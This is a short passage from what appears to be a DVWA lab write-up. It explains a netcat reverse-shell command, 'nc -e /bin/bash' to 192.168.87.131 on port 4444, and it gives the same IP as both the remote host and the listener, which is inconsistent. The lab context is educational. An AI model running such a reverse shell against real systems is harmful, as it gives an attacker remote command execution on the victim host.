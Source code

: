 ![image](https://github.com/nahcusira/dvwa/assets/87233531/433948a9-8715-4356-a3da-d479d33a47c6)

192.168.87.131 is the IP address of the remote host.

nc -e /bin/bash specifies that the netcat utility should be used to create a connection and execute the /bin/bash shell on the remote host.

192.168.87.131 is the IP address of the listening device.

4444 is the port number on which the netcat listener is running on the listening device.

When this command is executed on the remote host, it establishes a connection to the listening device and opens a shell on the remote host, allowing the person on the listening device to execute commands on the remote host.
